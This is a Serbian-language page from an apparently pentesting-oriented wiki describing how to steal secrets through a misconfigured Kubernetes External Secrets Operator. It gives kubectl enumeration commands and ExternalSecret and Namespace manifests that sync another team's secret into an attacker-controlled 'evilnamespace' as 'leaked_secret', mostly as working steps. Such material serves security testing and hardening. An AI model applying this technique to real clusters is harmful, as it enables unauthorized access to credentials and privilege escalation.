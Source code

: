 # External Secret Operator

**Originalni autor ove stranice je** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ova stranica daje nekoliko saveta o tome kako možete ukrasti tajne iz pogrešno konfigurisane ESO ili aplikacije koja koristi ESO za sinhronizaciju svojih tajni.

## Odricanje od odgovornosti

Tehnika prikazana u nastavku može raditi samo kada su ispunjeni određeni uslovi. Na primer, zavisi od zahteva potrebnih da se dozvoli sinhronizacija tajne u prostoru imena koji posedujete / kompromitujete. Morate to sami da otkrijete.

## Preduslovi

1. Pristup u kubernetes / openshift klasteru sa administratorskim privilegijama na prostoru imena
2. Pristup za čitanje na najmanje ExternalSecret na nivou klastera
3. Otkrivanje da li su potrebne oznake / anotacije ili članstvo u grupi koje omogućavaju ESO da sinhronizuje vašu tajnu. Ako imate sreće, možete slobodno ukrasti bilo koju definisanu tajnu.

### Prikupljanje informacija o postojećem ClusterSecretStore

Pretpostavljajući da imate korisnika koji ima dovoljno prava da pročita ovaj resurs; počnite tako što ćete prvo nabrojati postojeće _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeracija

Pretpostavimo da ste pronašli ClusterSecretStore nazvan _**mystore**_. Nastavite sa enumeracijom njegovog povezanog externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ovaj resurs je ograničen na namespace, tako da, osim ako već ne znate koji namespace da tražite, dodajte opciju -A da biste pretražili sve namespace._

Trebalo bi da dobijete listu definisanih externalsecret. Pretpostavimo da ste pronašli externalsecret objekat pod nazivom _**mysecret**_ definisan i korišćen od strane namespace _**mynamespace**_. Prikupite još informacija o tome kakvu vrstu tajne sadrži.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Sastavljanje delova

Odavde možete dobiti ime jednog ili više tajnih imena (kao što je definisano u Secret resursu). Dobićete izlaz sličan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Do sada smo dobili:

- Ime ClusterSecretStore
- Ime ExternalSecret
- Ime tajne

Sada kada imamo sve što nam je potrebno, možete kreirati ExternalSecret (i eventualno patch-ovati/kreirati novi Namespace kako biste ispunili preduslove potrebne za sinhronizaciju vaše nove tajne):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nakon nekoliko minuta, ako su ispunjeni uslovi za sinhronizaciju, trebali biste moći da vidite procurenu tajnu unutar vašeg imenskog prostora.
```sh
kubectl get secret leaked_secret -o yaml
```
## Reference

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
